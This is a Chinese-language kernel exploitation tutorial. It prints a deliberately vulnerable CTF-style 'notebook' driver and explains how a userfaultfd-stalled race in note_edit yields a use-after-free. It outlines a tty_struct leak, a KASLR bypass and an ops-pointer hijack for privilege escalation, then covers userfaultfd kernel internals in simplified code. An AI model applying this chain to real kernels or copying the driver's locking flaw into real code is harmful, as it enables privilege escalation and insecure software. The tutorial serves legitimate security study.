# 【pwn4kernel】Kernel userfaultfd技术分析

## 1. 测试环境

**测试版本**：Linux-4.15.8 [内核镜像地址](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/4.15.8/02/bzImage)

笔者测试的内核版本是 `Linux (none) 4.15.8 #1 SMP Sun Jan 4 17:33:55 CST 2026 x86_64 GNU/Linux`。

**编译选项**：关闭`CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_SLAB_FREELIST_HARDENED`、`CONFIG_MEMCG`、`CONFIG_HARDENED_USERCOPY`选项。开启`CONFIG_USERFAULTFD`、`CONFIG_SLUB`、`CONFIG_SLUB_DEBUG`、`CONFIG_BINFMT_MISC`、`CONFIG_E1000`、`CONFIG_E1000E`选项。完整配置参考[.config](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/4.15.8/02/.config)。

**保护机制**：KASLR/SMEP/SMAP/KPTI

**测试驱动程序**：笔者基于**QWB2021 - notebook** 实现了一个专用于辅助测试的内核驱动模块。该模块遵循Linux内核模块架构，在加载后动态创建`/dev/notebook`设备节点，从而为用户态的测试程序提供了一个可控的、直接的内核交互通道。该驱动作为构建完整漏洞利用链的核心组件之一，为后续的漏洞验证、利用技术开发以及相关安全分析工作，提供了不可或缺的实验环境与底层系统支撑。

驱动源码如下：

```c
/**
 * Copyright (c) 2026 BinRacer <native.lab@outlook.com>
 *
 * This work is licensed under the terms of the GNU GPL, version 2 or later.
 **/
// code base on QWB2021 - notebook
#include <linux/cdev.h>
#include <linux/device.h>
#include <linux/export.h>
#include <linux/fs.h>
#include <linux/gfp.h>
#include <linux/init.h>
#include <linux/module.h>
#include <linux/printk.h>
#include <linux/ptrace.h>
#include <linux/rwlock.h>
#include <linux/sched.h>
#include <linux/slab.h>
#include <linux/uaccess.h>
#include <linux/version.h>

#define NOTE_ADD 0x100
#define NOTE_DEL 0x200
#define NOTE_EDIT 0x300
#define NOTE_GIFT 0x64

struct note_t {
	char *note;
	size_t size;
};

struct usernote_t {
	size_t idx;
	size_t size;
	char *buf;
};

static char name[0x101] = { 0 };
static struct note_t notebook[0x10] = { 0 };

static rwlock_t notebook_rwlock;
static unsigned int major;
static struct class *notebook_class;
static struct cdev notebook_cdev;

static int notebook_open(struct inode *inode, struct file *filp)
{
	pr_info("[notebook:] Device open.\n");
	return 0;
}

static int notebook_release(struct inode *inode, struct file *filp)
{
	pr_info("[notebook:] Device release.\n");
	return 0;
}

ssize_t notebook_read(struct file *file, char __user *buf, size_t idx,
		      loff_t *pos)
{
	if (idx > 0x10) {
		pr_info("[notebook:] Read idx out of range.\n");
		return -EPERM;
	}
	if (copy_to_user(buf, notebook[idx].note, notebook[idx].size)) {
		pr_info("[notebook:] Read failed.\n");
		return -EFAULT;
	}
	pr_info("[notebook:] Read success.\n");
	return 0;
}

ssize_t notebook_write(struct file *file, const char __user *buf, size_t idx,
		       loff_t *pos)
{
	if (idx > 0x10) {
		pr_info("[notebook:] Write idx out of range.\n");
		return -EPERM;
	}
	if (copy_from_user(notebook[idx].note, buf, notebook[idx].size)) {
		pr_info("[notebook:] Write failed.\n");
		return -EFAULT;
	}
	pr_info("[notebook:] Write success.\n");
	return 0;
}

static long note_add(size_t idx, size_t new_size, void *buf)
{
	size_t old_size = 0;
	if (idx > 0x10) {
		pr_info("[notebook:] Add idx out of range.\n");
		return -EPERM;
	}
	read_lock(&notebook_rwlock);
	old_size = notebook[idx].size;
	notebook[idx].size = new_size;
	if (new_size > 0x60) {
		notebook[idx].size = old_size;
		pr_info("[notebook:] Add size out of range.\n");
		return -EPERM;
	}
	if (copy_from_user(name, buf, 0x100)) {
		notebook[idx].size = old_size;
		pr_info("[notebook:] Error copy name from user.\n");
		read_unlock(&notebook_rwlock);
		return -EFAULT;
	}
	if (notebook[idx].note) {
		notebook[idx].size = old_size;
		pr_info("[notebook:] Add idx is not empty.\n");
		read_unlock(&notebook_rwlock);
		return -EFAULT;
	}
	notebook[idx].note = (char *)kmalloc(new_size, GFP_KERNEL);
	pr_info("[notebook:] Add success. %s left a note.\n", name);
	read_unlock(&notebook_rwlock);
	return 0;
}

static long note_del(size_t idx)
{
	if (idx > 0x10) {
		pr_info("[notebook:] Delete idx out of range.\n");
		return -EPERM;
	}
	write_lock(&notebook_rwlock);
	kfree(notebook[idx].note);
	if (notebook[idx].size) {
		notebook[idx].size = 0;
		notebook[idx].note = NULL;
	}
	pr_info("[notebook:] Delete success.\n");
	write_unlock(&notebook_rwlock);
	return 0;
}

static long note_edit(size_t idx, size_t new_size, void *buf)
{
	char *note = NULL;
	if (idx > 0x10) {
		pr_info("[notebook:] Edit idx out of range.\n");
		return -EPERM;
	}
	read_lock(&notebook_rwlock);
	notebook[idx].size = new_size;
	note = (char *)krealloc(notebook[idx].note, new_size, GFP_KERNEL);
	if (!note) {
		pr_info("[notebook:] Return ptr unvalid.\n");
		read_unlock(&notebook_rwlock);
		return 3;
	}
	if (copy_from_user(name, buf, 0x100)) {
		pr_info("[notebook:] Error copy name from user.\n");
		read_unlock(&notebook_rwlock);
		return -EFAULT;
	}
	if (notebook[idx].size) {
		notebook[idx].note = note;
		pr_info("[notebook:] Edit success. %s edit a note.\n", name);
		read_unlock(&notebook_rwlock);
		return 2;
	}
	pr_info("[notebook:] free in fact.");
	notebook[idx].note = NULL;
	read_unlock(&notebook_rwlock);
	return 0;
}

static long note_gift(void *buf)
{
	pr_info("[notebook:] The notebook needs to be written "
		"from beginning to end.\n");
	if (copy_to_user(buf, &notebook, 0x100)) {
		pr_info("[notebook:] Error copy data to user.\n");
		return -EFAULT;
	}
	pr_info("[notebook:] For this special year, I give you a gift!\n");
	return 0x64;
}

static long notebook_ioctl(struct file *file, unsigned int cmd,
			   unsigned long arg)
{

	long ret = 0;
	size_t idx = 0;
	size_t size = 0;
	char *buf = NULL;
	size_t usernote_size = 0;
	struct usernote_t user_note = { 0 };
	usernote_size = sizeof(struct usernote_t);
	if (copy_from_user(&user_note, (void *)arg, usernote_size)) {
		pr_info("[notebook:] Error copy data from user.\n");
		return -EFAULT;
	}
	idx = user_note.idx;
	size = user_note.size;
	buf = user_note.buf;
	switch (cmd) {
	case NOTE_ADD:
		ret = note_add(idx, size, buf);
		break;
	case NOTE_DEL:
		ret = note_del(idx);
		break;
	case NOTE_EDIT:
		ret = note_edit(idx, size, buf);
		break;
	case NOTE_GIFT:
		ret = note_gift(buf);
		break;
	default:
		pr_info("[notebook:] Unknown ioctl cmd!\n");
		ret = -EINVAL;
	}
	return ret;
}

struct file_operations notebook_fops = {
	.owner = THIS_MODULE,
	.open = notebook_open,
	.release = notebook_release,
	.read = notebook_read,
	.write = notebook_write,
	.unlocked_ioctl = notebook_ioctl,
};

static char *notebook_devnode(struct device *dev, umode_t *mode)
{
	if (mode)
		*mode = 0666;
	return NULL;
}

static int __init init_notebook(void)
{
	struct device *notebook_device;
	int error;
	dev_t devt = 0;

	rwlock_init(&notebook_rwlock);
	error = alloc_chrdev_region(&devt, 0, 1, "notebook");
	if (error < 0) {
		pr_err("[notebook:] Can't get major number!\n");
		return error;
	}
	major = MAJOR(devt);
	pr_info("[notebook:] notebook major number = %d.\n", major);

	notebook_class = class_create(THIS_MODULE, "notebook_class");
	if (IS_ERR(notebook_class)) {
		pr_err("[notebook:] Error creating notebook class!\n");
		unregister_chrdev_region(MKDEV(major, 0), 1);
		return PTR_ERR(notebook_class);
	}
	notebook_class->devnode = notebook_devnode;

	cdev_init(&notebook_cdev, &notebook_fops);
	notebook_cdev.owner = THIS_MODULE;
	cdev_add(&notebook_cdev, devt, 1);
	notebook_device =
	    device_create(notebook_class, NULL, devt, NULL, "notebook");
	if (IS_ERR(notebook_device)) {
		pr_err("[notebook:] Error creating notebook device!\n");
		class_destroy(notebook_class);
		unregister_chrdev_region(devt, 1);
		return -1;
	}
	pr_info("[notebook:] notebook module loaded.\n");
	pr_info("[notebook:] Welcome to BrokenNotebook!\n");
	return 0;
}

static void __exit exit_notebook(void)
{
	int i;
	for (i = 0; i < 0x10; i++) {
		if (notebook[i].note) {
			kfree(notebook[i].note);
		}
	}
	unregister_chrdev_region(MKDEV(major, 0), 1);
	device_destroy(notebook_class, MKDEV(major, 0));
	cdev_del(&notebook_cdev);
	class_destroy(notebook_class);
	pr_info("[notebook:] notebook module unloaded.\n");
}

module_init(init_notebook);
module_exit(exit_notebook);
MODULE_AUTHOR("BinRacer");
MODULE_LICENSE("GPL v2");
MODULE_DESCRIPTION("Welcome to the pwn4kernel challenge!");
```

## 2. 漏洞机制

### 2-1. 模块功能概述

该内核模块实现了一个简易记事本（notebook）系统，提供了完整的文件操作接口：`notebook_open`、`notebook_release`、`notebook_read`、`notebook_write`、`notebook_ioctl`。其中`notebook_open`和`notebook_release`仅作为功能占位符，未实现实质逻辑。模块的核心数据结构设计如下：

```c
struct note_t {
    char *note;  // 指向便签内容的堆指针
    size_t size; // 便签内容大小
};
static char name[0x101] = { 0 };                // 全局名称缓冲区
static struct note_t notebook[0x10] = { 0 };    // 16个便签的数组
static rwlock_t notebook_rwlock;               // 读写锁，保护notebook数组
```

模块在卸载时会清理资源，遍历`notebook`数组并释放每个`note`指针指向的内存：`kfree(notebook[i].note)`。`notebook_read`和`notebook_write`函数提供了对指定索引便签内容的读写能力，包含严格的索引边界检查。

`notebook_ioctl`操作是模块的核心，提供四个命令：`NOTE_ADD`、`NOTE_DEL`、`NOTE_EDIT`、`NOTE_GIFT`，分别对应添加、删除、编辑便签和获取信息功能。

### 2-2. 功能函数详细分析

**1. NOTE_ADD - 添加新便签**

```c
static long note_add(size_t idx, size_t new_size, void *buf)
```

函数执行流程包括索引验证、读锁获取、大小检查、名称复制、便签存在性检查，最后通过`kmalloc`分配指定大小的内存。**关键点**：在分配内存前，会先检查目标位置是否已有便签存在，若已存在则返回错误。

**2. NOTE_DEL - 删除便签**

```c
static long note_del(size_t idx)
```

通过写锁保护`kfree`操作，释放目标便签内存，并重置相关字段。**正确使用写锁**确保操作的原子性。

**3. NOTE_EDIT - 编辑便签**

```c
static long note_edit(size_t idx, size_t new_size, void *buf)
```

这是漏洞的核心所在，函数流程如下图所示：



**4. NOTE_GIFT - 信息获取**

```c
static long note_gift(void *buf)
```

将`notebook`数组的前0x100字节复制到用户空间，返回固定值0x64。此功能可能被用于获取内核数据结构信息。

### 2-3. 核心漏洞：锁机制不当与并发缺陷

`note_edit`函数存在两个关键设计缺陷：

1. **错误的锁类型使用**：函数使用`read_lock`（读锁）而非`write_lock`（写锁）来保护可能修改共享数据结构的操作。当`new_size`参数为0时，`krealloc`实际执行`kfree`操作，这会修改`notebook[idx]`结构体的关键字段。读锁允许多个读者并发进入，破坏了修改操作的排他性要求。

2. **内存管理状态不一致窗口**：`krealloc`调用与后续的`notebook[idx].note`指针更新之间存在逻辑分离。当`new_size=0`时，`krealloc`立即释放内存，但指针仅在函数末尾才被置为NULL。在此期间，其他线程可能观察到不一致的状态。

### 2-4. 漏洞触发机制分析

当`new_size=0`时，`note_edit`的执行路径如下：

1. 获取读锁
2. 调用`krealloc(notebook[idx].note, 0, GFP_KERNEL)` → 实际执行`kfree(notebook[idx].note)`
3. 尝试从用户空间复制数据（可能因`userfaultfd`而挂起）
4. 将`notebook[idx].note`置为NULL
5. 释放读锁

关键问题在于：**步骤2释放内存后，到步骤4将指针置为NULL之前，存在一个时间窗口，在此期间内存已被释放但指针仍为非NULL值**。如果在此期间有其他线程访问该便签，将触发释放后使用（Use-After-Free, UAF）漏洞。

### 2-5. 利用userfaultfd构造竞态条件

**userfaultfd机制原理**：`userfaultfd`是Linux内核提供的一种用户空间缺页异常处理机制。当用户空间内存区域注册了`userfaultfd`后，任何访问该区域未映射页的操作都会触发缺页异常，内核将控制权转交给用户空间注册的处理函数，直到该页被"修复"（映射有效物理页）。通过不提供页面映射，可以使内核操作无限期挂起。

在`note_edit`函数中，`copy_from_user(name, buf, 0x100)`调用会访问`buf`指向的用户空间内存。如果`buf`指向的是通过`userfaultfd`注册的区域，且该区域未映射物理页，该调用将挂起，直到用户空间处理函数提供有效的页面映射。

**漏洞触发条件构造**：通过精确控制多个线程的执行顺序和`userfaultfd`的页面映射时机，可以构造以下竞态条件，下图展示了完整的交互过程：



**UAF形成与利用过程**：

1. **初始状态准备**：
    - 注册userfaultfd内存区域`uffd_buf`，并启动监控线程处理缺页异常
    - 在索引0位置创建一个初始便签（大小为0x10）
    - 通过`note_edit`将该便签大小调整为特定大小（如`tty_struct`大小），使用普通内存地址，不会触发userfaultfd

2. **内存释放与线程挂起**：
    - 线程A执行`note_edit(0, 0, uffd_buf)`，其中`uffd_buf`是已注册userfaultfd的内存区域
    - 调用`krealloc(notebook[0].note, 0)`释放内存，并将`notebook[0].size`设置为0
    - 当执行到`copy_from_user(name, uffd_buf, 0x100)`时，访问未映射的`uffd_buf`触发缺页异常，线程无限期挂起
    - 此时内存已释放，但`notebook[0].note`指针尚未置为NULL

3. **修复size操作挂起**：
    - 线程B执行`note_add(0, 0x60, uffd_buf)`，同样在`copy_from_user`处因访问`uffd_buf`而无限期挂起
    - 在挂起前，线程B已将`notebook[0].size`更新为0x60，修复了`note_edit`线程设置的size=0
    - 但线程B不会继续执行到分配内存的步骤，因为它在`copy_from_user`处挂起

4. **内存重新分配**：
    - 在两个线程都挂起的状态下，内存已释放但`notebook[0].note`指针尚未置为NULL
    - 通过打开`/dev/ptmx`设备触发`tty_struct`对象分配，占用刚刚释放的内存
    - 此时形成UAF条件：`tty_struct`对象占用的内存原本属于`notebook[0].note`

5. **信息泄露**：
    - 通过`notebook_read(0, buffer)`读取`tty_struct`对象的内容
    - 从`tty_struct`结构中提取内核地址信息，如`tty_operations`指针，用于计算内核基址

6. **内存修改**：
    - 通过`notebook_write(0, fake_tty_struct)`向`tty_struct`写入伪造的数据
    - 关键修改包括：将`tty_struct->ops`指针指向可控的内存区域
    - 在可控内存区域构造伪造的`tty_operations`结构，其中包含指向用户控制代码的函数指针

7. **控制流转移**：
    - 对`tty_fd`执行`ioctl`操作，触发内核通过`tty_struct->ops`调用相应的操作函数
    - 由于`ops`指针已被篡改，内核会跳转到用户控制的代码地址执行
    - 通过精心构造的payload实现权限提升或执行任意代码

**关键点说明**：

1. **userfaultfd的无限期挂起**：两个线程在触发userfaultfd后会无限期挂起，不会自动返回。这使得有足够的时间窗口进行内存重新分配操作。

2. **size修复的必要性**：
    - 线程A的`note_edit`将`notebook[0].size`设置为0
    - 如果size保持为0，后续的`notebook_read`操作将无法读取任何数据
    - 线程B的`note_add`在挂起前已将size修复为0x60，使得`notebook_read`可以读取0x60字节的数据

3. **利用链的完整性**：
    - 信息泄露阶段获取必要的内核地址信息
    - 内存修改阶段篡改关键数据结构
    - 控制流转移阶段触发代码执行

### 2-6. 总结

此漏洞案例展示了并发编程中锁机制误用可能导致的严重后果，以及复杂竞态条件构造的技术原理。对于内核开发者而言，理解不同锁语义的适用场景、确保操作的原子性、以及对并发访问的有效保护，是确保系统安全稳定的关键要素。通过对此类漏洞的分析和学习，可以帮助开发者更好地设计和实现安全的并发系统。

## 3. userfaultfd原理

### 3-1. 概述与设计目标

`userfaultfd`是Linux内核提供的一种用户空间缺页异常处理机制，它允许用户空间程序接管对特定内存区域的缺页异常处理。传统的内核缺页处理机制完全由内核管理，而`userfaultfd`则将这一控制权部分下放给用户空间，为用户提供了更灵活的内存管理能力。

**设计目标**：

1. **用户空间控制**：允许用户空间程序自定义处理特定内存区域的缺页异常
2. **精确同步**：提供细粒度的内存访问控制，实现用户空间与内核空间之间的精确同步
3. **内存迁移支持**：支持在线内存迁移、内存去重等高级内存管理功能
4. **调试与监控**：为内存访问模式分析、调试工具提供底层支持

### 3-2. 工作原理

`userfaultfd`机制的核心思想是将缺页异常的处理流程从完全的内核控制转变为用户空间可干预的协作式处理。当进程访问已注册`userfaultfd`的内存区域时，如果该区域尚未映射物理页，会触发缺页异常，内核将该异常通过`userfaultfd`文件描述符通知用户空间，由用户空间决定如何处理。

下图展示了`userfaultfd`的基本工作原理和交互流程：



### 3-3. 内核调用链分析

`userfaultfd`机制在内核中的实现涉及多个层次的调用，从系统调用入口到缺页异常处理，再到用户空间事件通知。为避免显示拥挤，我们将完整的调用链拆分为四个逻辑阶段进行详细分析。

#### 3-3-1. 系统调用初始化阶段

此阶段主要处理用户空间对`userfaultfd()`系统调用的请求，创建并初始化`userfaultfd`上下文。



**关键函数实现**：

```c
// fs/userfaultfd.c
SYSCALL_DEFINE1(userfaultfd, int, flags)
{
    return sys_userfaultfd(flags);
}

static int sys_userfaultfd(int flags)
{
    // 创建userfaultfd对象
    struct userfaultfd_ctx *ctx;
    int fd;

    // 分配上下文
    ctx = kmem_cache_alloc(userfaultfd_ctx_cachep, GFP_KERNEL);

    // 初始化上下文
    init_userfaultfd_ctx(ctx);

    // 创建匿名inode和文件描述符
    fd = anon_inode_getfd("[userfaultfd]", &userfaultfd_fops, ctx, flags);

    return fd;
}
```

#### 3-3-2. 内存区域注册阶段

此阶段处理`UFFDIO_REGISTER`命令，将指定的内存区域标记为由`userfaultfd`监控。



**注册流程实现**：

```c
// 用户空间ioctl(UFFDIO_REGISTER)调用
static long userfaultfd_ioctl(struct file *file, unsigned int cmd, unsigned long arg)
{
    switch (cmd) {
    case UFFDIO_REGISTER: {
        struct uffdio_register uffdio_register;

        // 复制用户参数
        if (copy_from_user(&uffdio_register, (void __user *)arg, sizeof(uffdio_register)))
            return -EFAULT;

        // 调用注册函数
        ret = userfaultfd_register(ctx, uffdio_register.mode, &uffdio_register.range);

        break;
    }
    // 其他命令处理...
    }
}
```

**关键数据结构变化**：

```c
// 注册前后VMA标志位变化
// 注册前: vma->vm_flags = VM_READ | VM_WRITE | VM_MAYREAD | VM_MAYWRITE
// 注册后: vma->vm_flags |= VM_UFFD_MISSING

// 注册范围被添加到上下文链表
struct userfaultfd_range range = {
    .start = uffdio_register.range.start,
    .len = uffdio_register.range.len,
    .mode = uffdio_register.mode
};
list_add_tail(&range.list, &ctx->ranges);
```

#### 3-3-3. 缺页异常触发阶段

当用户访问已注册但未映射的内存时，触发缺页异常，内核将控制权转交给`userfaultfd`处理。



**缺页处理实现**：

```c
// 缺页异常触发时的处理
vm_fault_t handle_userfault(struct vm_fault *vmf, unsigned long reason)
{
    struct vm_area_struct *vma = vmf->vma;
    struct userfaultfd_ctx *ctx;

    // 获取userfaultfd上下文
    ctx = vma->vm_userfaultfd_ctx.ctx;

    // 初始化缺页事件
    init_userfaultfd_wait(&uwq);

    // 将缺页事件加入队列
    spin_lock(&ctx->fault_pending_wqh.lock);
    list_add_tail(&uwq.wq.entry, &ctx->fault_pending_wqh.head);
    spin_unlock(&ctx->fault_pending_wqh.lock);

    // 唤醒userfaultfd监控线程
    wake_up_all(&ctx->fault_wqh);

    // 挂起当前线程，等待用户空间处理
    for (;;) {
        set_current_state(TASK_KILLABLE);

        // 检查是否收到信号
        if (fatal_signal_pending(current)) {
            ret = VM_FAULT_SIGBUS;
            break;
        }

        // 检查用户空间是否已处理
        if (uwq.state == UFFD_STATE_WAKE) {
            ret = 0;
            break;
        }

        // 调度其他进程
        schedule();
    }

    return ret;
}
```

**缺页等待队列操作**：

```c
// 初始化等待结构
struct userfaultfd_wait_queue uwq;
init_userfaultfd_wait(&uwq);
uwq.ctx = ctx;
uwq.msg = msg;

// 加入等待队列
spin_lock(&ctx->fault_pending_wqh.lock);
list_add_tail(&uwq.wq.entry, &ctx->fault_pending_wqh.head);
spin_unlock(&ctx->fault_pending_wqh.lock);

// 唤醒监控线程
wake_up_all(&ctx->fault_wqh);
```

#### 3-3-4. 页面复制与恢复阶段

用户空间监控线程处理缺页事件，通过`UFFDIO_COPY`命令填充页面，然后内核唤醒等待的线程。

```mermaid
flowchart TD
    A[监控线程读取缺页事件] --> B["read(uffd, &msg, sizeof(msg))"]
    B --> C["解析缺页信息"]
    C --> D["准备页面数据"]
    D --> E["用户空间ioctl调用"]
    E --> F["SYSCALL_DEFINE3(ioctl, unsigned int, fd, unsigned int, cmd, unsigned long, arg)"]
    F --> G{cmd类型判断}
    G -->|UFFDIO_COPY| H["userfaultfd_ioctl()"]
    H --> I["copy_from_user()<br/>复制复制参数"]
    I --> J["userfaultfd_copy()"]
    J --> K["mcopy_atomic()<br/>原子复制页面"]
    K --> L["建立页表映射"]
    L --> M["wake_userfault()<br/>唤醒等待线程"]
    M --> N["清除等待状态"]
    N --> O["恢复线程执行"]
    O --> P["内存访问完成"]

    style A fill:#2C3E50,stroke:#34495E,stroke-width:2px,color:#fff
    style B fill:#5DADE2,stroke:#3498DB,stroke-width:2px,color:#fff
    style C fill:#48C9B0,stroke:#1ABC9C,stroke-width:2px,color:#fff
    style D fill:#48C9B0,stroke:#1ABC9C,stroke-width:2px,color:#fff
    style E fill:#2C3E50,stroke:#34495E,stroke-width:2px,color:#fff
    style F fill:#3498DB,stroke:#2980B9,stroke-width:2px,color:#fff
    style G fill:#E74C3C,stroke:#C0392B,stroke-width:2px,color:#fff
    style H fill:#5DADE2,stroke:#3498DB,stroke-width:2px,color:#fff
    style I fill:#48C9B0,stroke:#1ABC9C,stroke-width:2px,color:#fff
    style J fill:#48C9B0,stroke:#1ABC9C,stroke-width:2px,color:#fff
    style K fill:#F39C12,stroke:#E67E22,stroke-width:2px,color:#fff
    style L fill:#F39C12,stroke:#E67E22,stroke-width:2px,color:#fff
    style M fill:#F39C12,stroke:#E67E22,stroke-width:2px,color:#fff
    style N fill:#F39C12,stroke:#E67E22,stroke-width:2px,color:#fff
    style O fill:#2C3E50,stroke:#34495E,stroke-width:2px,color:#fff
    style P fill:#2C3E50,stroke:#34495E,stroke-width:2px,color:#fff
```

**页面复制实现**：

```c
// 用户空间ioctl(UFFDIO_COPY)调用
static int userfaultfd_copy(struct userfaultfd_ctx *ctx,
                           unsigned long arg)
{
    struct uffdio_copy uffdio_copy;

    // 复制用户参数
    if (copy_from_user(&uffdio_copy, (void __user *)arg, sizeof(uffdio_copy)))
        return -EFAULT;

    // 执行原子复制
    ret = mcopy_atomic(ctx->mm, uffdio_copy.dst, uffdio_copy.src,
                       uffdio_copy.len);

    // 唤醒等待的线程
    wake_userfault(ctx, &range);

    return ret;
}
```

**原子复制操作**：

```c
// mcopy_atomic()的核心操作
static int mcopy_atomic(struct mm_struct *dst_mm, unsigned long dst_start,
                       unsigned long src_start, unsigned long len)
{
    // 1. 分配物理页面
    page = alloc_page_vma(GFP_HIGHUSER_MOVABLE, dst_vma, dst_addr);

    // 2. 复制数据
    kaddr = kmap_atomic(page);
    copy_from_user(kaddr, (const void __user *)src_start, PAGE_SIZE);
    kunmap_atomic(kaddr);

    // 3. 建立页表映射
    pte = pte_offset_map_lock(dst_mm, dst_pmd, dst_addr, &ptl);
    set_pte_at(dst_mm, dst_addr, pte, mk_pte(page, dst_vma->vm_page_prot));
    pte_unmap_unlock(pte, ptl);

    return 0;
}
```

#### 3-3-5. 完整调用链整合

将上述四个阶段整合，展示完整的`userfaultfd`内核调用链：

